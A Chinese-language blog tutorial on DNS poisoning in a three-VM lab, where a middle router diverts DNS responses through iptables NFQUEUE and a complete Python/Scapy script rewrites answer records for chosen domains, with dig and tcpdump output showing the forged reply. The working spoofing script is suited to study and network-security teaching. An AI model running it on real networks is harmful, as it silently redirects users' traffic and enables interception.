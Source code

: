 ```yaml
---
layout:     post
title:      "DNS污染的Python实现"
subtitle:   "Modify packets with nfqueue and scapy"
date:       2019-05-25 00:00:00
author:     "NJL"
header-img: "img/post-bg-2015.jpg"
tags:
    - Python
    - iptables
    - DNS 
---
```



#### 0x01 引言

本文简单介绍了一种 Man-in-the-middle 的 DNS 攻击方法。在中间路由设备上通过 iptables 捕获 DNS 数据包，然后使用 Scapy 来修改响应中的资源记录， 以此来实现 DNS 污染。


#### 0x02 测试环境拓扑 

准备三台虚机，分别是以下 IP

    Node1: 192.168.129.107  # client，作为DNS请求发起端
    Node2：192.168.129.112  # router，中间路由设备
    Node3：192.168.129.113  # server，DNS 服务器

![Deployment Image](/img/in-post/post-dns-spoof/DNS_SPOOF.jpg)
 
Node2 作为中间路由器, 需要打开 `ipv4_forward`, 并在 Node1 和 Node3上 分别设置明细路由，使Node2作为它们的网关  


    # 在 node2 上执行，开启转发
    root@node2:/# sysctl -p
    net.ipv4.ip_forward = 1

    # 在 node1 上执行, 目的地址为 Node3 的数据包下一跳为 Node2
    root@node1:/# ip route add 192.168.129.113 via 192.168.129.112

    # 在 node3 上执行, 目标地址为 Node1 的数据包下一跳为 Node2 
    root@node3:/# ip route add 192.168.129.107 via 192.168.129.112

    #在 node3 上安装 dnsmasq 
    root@node3:/# apt-get install dnsmasq

测试域名解析，node1 向 node3 请求 www.baidu.com 的域名解析，  node2 上应该能能抓到DNS请求和应答包

    # 在node1 上向 node3 请求 dns 解析
     root@node1:/#dig www.baidu.com @192.168.129.113

    # 在 node2 上应该能抓到 DNS 解析包
    root@node2:/# tcpdump -i any -p udp and host 192.168.129.107 and port 53
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
    08:44:29.634961 IP 192.168.129.107.37559 > 192.168.129.113.domain: 63650+ [1au] A? www.baidu.com. (54)
    08:44:29.635083 IP 192.168.129.107.37559 > 192.168.129.113.domain: 63650+ [1au] A? www.baidu.com. (54)
    08:44:29.642843 IP 192.168.129.113.domain > 192.168.129.107.37559: 63650 3/0/1 CNAME www.a.shifen.com., A 115.239.211.112, A 115.239.210.27 (101)
    08:44:29.642918 IP 192.168.129.113.domain > 192.168.129.107.37559: 63650 3/0/1 CNAME www.a.shifen.com., A 115.239.211.112, A 115.239.210.27 (101)


#### 0x03 捕获 DNS 数据包

想要修改数据包，首先必须要能获取到它。在这里我们使用了 `iptables` 的 `nfqueue`， 它可以将数据包从内核空间拷贝到用户空间，在用户空间对其修改后重新发送。

先在 node2 上添加一条 iptables 规则， 使所有 DNS Response Packet 都进入 `nfqueue 0` 中。  

    
    root@node2:/# iptables -t filter -I FORWARD 1 -p udp --sport 53 -j NFQUEUE --queue-num 0


[Python NetfilterQueue](https://pypi.org/project/NetfilterQueue) 十分容易上手，根据其基础教程很容易就能完成我们的第一次数据包的捕获。  

    # 安装依赖
    apt-get install build-essential python-dev libnetfilter-queue-dev  
    pip install NetfilterQueue  


    # 捕获并打印数据包
    from netfilterqueue import NetfilterQueue
    
    def print_and_accept(pkt):
        print(pkt)
        pkt.accept()
    
    nfqueue = NetfilterQueue()
    nfqueue.bind(0, print_and_accept)
    try:
        nfqueue.run()
    except KeyboardInterrupt:
        print('')
    
    nfqueue.unbind()

#### 0x04 修改 DNS 响应


捕获到数据包之后，接下来就是修改其内容。Netifilter Packet 对象提供了 `get_payload()` 方法用来获取数据包原始的二进制数据，
但我们不可能直接对二进制数据进行修改，所以就轮到 Scapy 登场了。   

[Scapy](https://scapy.readthedocs.io/en/latest/) 可以方便我们构造和修改报文，
`scapy.IP(pkt.get_payload())` 将二进制数据 转换成 `scapy.IP` 对象

~~~ python

import scapy.all as scapy
from netfilterqueue import NetfilterQueue
    
# 只修改此 DNS Server的响应

target_dns_servers = ['192.168.129.113']

# 将 www.baidu.com 的域名解析修改为 1.1.1.1

target_domains = {
    'www.baidu.com.': '1.1.1.1',
    'www.sina.com.': '2.2.2.2'
}
target_domains_set = target_domains.keys()

def dns_spoof_and_accept(pkt):
    try:
        dns_packet = scapy.IP(pkt.get_payload())
        dns_server_ip = dns_packet[scapy.IP].src
        # 源地址匹配，并且有 RR 记录

        if dns_server_ip in target_dns_servers and dns_packet.haslayer(scapy.DNSRR):
            qname = dns_packet[scapy.DNSQR].qname 
            if qname in target_domains_set:
                dns_response = scapy.DNSRR(rrname=qname, rdata=target_domains[qname])
                dns_packet[scapy.DNS].an = dns_response
                dns_packet[scapy.DNS].ancount = 1
                # 删除Checksum 

                del dns_packet[scapy.IP].len
                del dns_packet[scapy.IP].chksum
                del dns_packet[scapy.UDP].len
                del dns_packet[scapy.UDP].chksum
                pkt.set_payload(str(dns_packet))
    except Exception as e:
        pass
    finally:
        pkt.accept()

nfqueue = NetfilterQueue()
# 满足条件的 pkt 会进入此 nfqueue, 交给 dns_spoof_and_accept(pkt) 来处理

nfqueue.bind(0, dns_spoof_and_accept)
try:
    nfqueue.run()
except KeyboardInterrupt:
    print('Exit')

nfqueue.unbind()
~~~ 

运行 `dns_ans_spoof.py`, 然后再次在 node1 上请求 dns 解析


~~~ 
# 百度的地址已经被修改为了 1.1.1.1, 其他未配置的请求不会被修改

root@node1:/# dig www.baidu.com @192.168.129.113 

; <<>> DiG 9.11.3-1ubuntu1.5-Ubuntu <<>> www.baidu.com @192.168.129.113
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 23488
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;www.baidu.com.			IN	A

;; ANSWER SECTION:
www.baidu.com.		0	IN	A	1.1.1.1

;; Query time: 83 msec
;; SERVER: 192.168.129.113#53(192.168.129.113)
;; WHEN: Mon Mar 11 17:07:56 CST 2019
;; MSG SIZE  rcvd: 71
# 查看 node2 上的抓包信息 
09:07:56.433256 IP 192.168.129.107.38241 > 192.168.129.113.domain: 23488+ [1au] A? www.baidu.com. (54)
09:07:56.433479 IP 192.168.129.107.38241 > 192.168.129.113.domain: 23488+ [1au] A? www.baidu.com. (54)
# Original DNS Resp
09:07:56.442586 IP 192.168.129.113.domain > 192.168.129.107.38241: 23488 3/0/1 CNAME www.a.shifen.com., A 115.239.211.112, A 115.239.210.27 (101)
# Modified DNS Resp
09:07:56.515473 IP 192.168.129.113.domain > 192.168.129.107.38241: 23488 1/0/1 A 1.1.1.1 (71)
~~~

#### 0x04 Reference


https://medium.com/@777rip777/dns-spoofer-with-scapy-part-5-4a84b17f35a3  
https://scapy.readthedocs.io/en/latest/introduction.html  
https://en.wikipedia.org/wiki/Domain_Name_System  
https://en.wikipedia.org/wiki/DNS_spoofing  

